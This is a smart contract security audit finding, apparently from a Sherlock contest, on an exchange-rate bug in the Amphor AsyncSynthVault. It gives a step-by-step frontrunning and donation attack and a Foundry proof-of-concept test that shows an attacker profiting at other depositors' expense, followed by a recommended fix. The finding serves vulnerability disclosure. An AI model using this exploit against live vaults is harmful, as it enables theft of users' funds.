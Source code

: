 Attractive Tin Carp

high

# Exchange rate is calculated incorrectly when the vault is closed, potentially leading to funds being stolen

## Summary
The exchange ratio between shares and assets is calculated incorrectly when the vault is closed. This can cause accounting inconsistencies, funds being stolen and users being unable to redeem shares.

## Vulnerability Detail
The functions [AsyncSynthVault::_convertToAssets](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L907-L908) and [AsyncSynthVault::_convertToShares](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L887-L890) both add `1` to the epoch cached variables `totalAssetsSnapshotForDeposit`, `totalSupplySnapshotForDeposit`, `totalAssetsSnapshotForRedeem` and `totalSupplySnapshotForRedeem`. 

This is incorrect because the function [previewSettle](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L626), used in [_settle()](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L786), already adds `1` to the variables:
```solidity
...
uint256 totalAssetsSnapshotForDeposit = _lastSavedBalance + 1;
uint256 totalSupplySnapshotForDeposit = totalSupply + 1;
...
uint256 totalAssetsSnapshotForRedeem = _lastSavedBalance + pendingDeposit + 1;
uint256 totalSupplySnapshotForRedeem = totalSupply + sharesToMint + 1;
...
```

This leads to accounting inconsistencies between depositing/redeeming when a vault is closed and depositing/redeeming when a vault is open whenever the exchange ratio assets/shares is not exactly 1:1.

If a share is worth more than one asset:
- Users that will request a deposit while the vault is closed will receive **more** shares than they should
- Users that will request a redeem while the vault is closed will receive **less** assets than they should

### POC
This can be taken advantage of by an attacker by doing the following:
1. The attacker monitors the mempool for a vault deployment.
2. Before the vault is deployed the attacker transfers to the vault some of the vault underlying asset (donation). This increases the value of one share.
3. The protocol team initializes the vault and adds the bootstrap liquidity.
4. Users use the protocol normally and deposits some assets.
5. The vault gets closed by the protocol team and the funds invested.
6. Some users request a deposit while the vault is closed.
7. The attacker monitors the mempool to know when the vault will be open again.
8. Right before the vault is opened, the attacker performs multiple deposit requests with different accounts. For each account he deposits the minimum amount of assets required to receive 1 share.
9. The vault opens.
10. The attacker claims all of the deposits with every account and then redeems the shares immediately for profit.

This will "steal" shares of other users (point `6`) from the claimable silo because the protocol will give the attacker more shares than it should. The attacker will profit and some users won't be able to claim their shares.

Add imports to `TestClaimRedeem.t.sol`:
```solidity
import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
```
and copy-paste:
```solidity
function test_attackerProfitsViaRequestingDeposits() external {
    address attacker = makeAddr("attacker");
    address protocolUsers = makeAddr("alice");
    address vaultOwner = vaultTested.owner();

    uint256 donation = 1e18 - 1;
    uint256 protocolUsersDeposit = 10e18 + 15e18;
    uint256 protocolTeamBootstrapDeposit = 1e18;

    IERC20 asset = IERC20(vaultTested.asset());
    deal(address(asset), protocolUsers, protocolUsersDeposit);
    deal(address(asset), attacker, donation);
    deal(address(asset), vaultOwner, protocolTeamBootstrapDeposit);

    vm.prank(vaultOwner);
    asset.approve(address(vaultTested), type(uint256).max);

    vm.prank(protocolUsers);
    asset.approve(address(vaultTested), type(uint256).max);

    vm.prank(attacker);
    asset.approve(address(vaultTested), type(uint256).max);

    //-> Attacker donates `1e18 - 1` assets, this can be done before the vault is even deployed
    vm.prank(attacker);
    asset.transfer(address(vaultTested), donation);

    //-> Protocol team bootstraps the vault with `1e18` of assets
    vm.prank(vaultOwner);
    vaultTested.deposit(protocolTeamBootstrapDeposit, vaultOwner);
    
    //-> Users deposit `10e18` of liquidity in the vault
    vm.prank(protocolUsers);
    vaultTested.deposit(10e18, protocolUsers);

    //-> Vault gets closed
    vm.prank(vaultOwner);
    vaultTested.close();

    //-> Users request deposits for `15e18` assets
    vm.prank(protocolUsers);
    vaultTested.requestDeposit(15e18, protocolUsers, protocolUsers, "");

    //-> The attacker frontruns the call to `open()` and knows that:
    //- The current epoch cached `totalSupply` of shares will be `vaultTested.totalSupply()` + 1 + 1
    //- The current epoch cached `totalAssets` will be 12e18 + 1 + 1
    uint256 totalSupplyCachedOnOpen = vaultTested.totalSupply() + 1 + 1; //Current supply of shares, plus 1 used as virtual share, plus 1 added by `_convertToAssets`
    uint256 totalAssetsCachedOnOpen = vaultTested.lastSavedBalance() + 1 + 1; //Total assets passed as paremeter to `open`, plus 1 used as virtual share, plus 1 added by `_convertToAssets`
    uint256 minToDepositToGetOneShare = totalAssetsCachedOnOpen / totalSupplyCachedOnOpen;

    //-> Attacker frontruns the call to `open()` by requesting a deposit with multiple fresh accounts
    uint256 totalDeposited = 0;
    for(uint256 i = 0; i < 30; i++) {
        address attackerEOA = address(uint160(i * 31000 + 49*49)); //Random address that does not conflict with existing ones
        deal(address(asset), attackerEOA, minToDepositToGetOneShare);
        vm.startPrank(attackerEOA);
        asset.approve(address(vaultTested), type(uint256).max);
        vaultTested.requestDeposit(minToDepositToGetOneShare, attackerEOA, attackerEOA, "");
        vm.stopPrank();
        totalDeposited += minToDepositToGetOneShare;
    }

    //->Vault gets opened again with 0 profit and 0 losses (for simplicity)
    vm.startPrank(vaultOwner);
    vaultTested.open(vaultTested.lastSavedBalance());
    vm.stopPrank();

    //-> Attacker claims his deposits and withdraws them immediately for profit
    uint256 totalRedeemed = 0;
    for(uint256 i = 0; i < 30; i++) {
        address attackerEOA = address(uint160(i * 31000 + 49*49)); //Random address that does not conflict with existing ones
        vm.startPrank(attackerEOA);
        vaultTested.claimDeposit(attackerEOA);
        uint256 assets = vaultTested.redeem(vaultTested.balanceOf(attackerEOA), attackerEOA, attackerEOA);
        vm.stopPrank();
        totalRedeemed += assets;
    }

    //->❌ Attacker is in profit
    assertGt(totalRedeemed, totalDeposited + donation);
}
```

## Impact
When the ratio between shares and assets is not 1:1 the protocol calculates the exchange rate between assets and shares inconsitently. This is an issue by itself and can lead to loss of funds and users not being able to claim shares. It can also be taken advantage of by an attacker to steal shares from the claimable silo.

Note that the "donation" done initially is not akin to an "inflation" attack because the attacker is not required to mint any share.

## Code Snippet

## Tool used

Manual Review

## Recommendation
In the functions [AsyncSynthVault::_convertToAssets](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L907-L908) and [AsyncSynthVault::_convertToShares](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L887-L890):
- Return `0` if `requestId == 0`
- Don't add `1` to the two cached variables

It's also a good idea to perform the initial bootstrapping deposit in the [initialize](https://github.com/sherlock-audit/2024-03-amphor/blob/main/asynchronous-vault/src/AsyncSynthVault.sol#L181) function (as suggested in another finding) and require that the vault contains `0` assets when the first deposit is performed.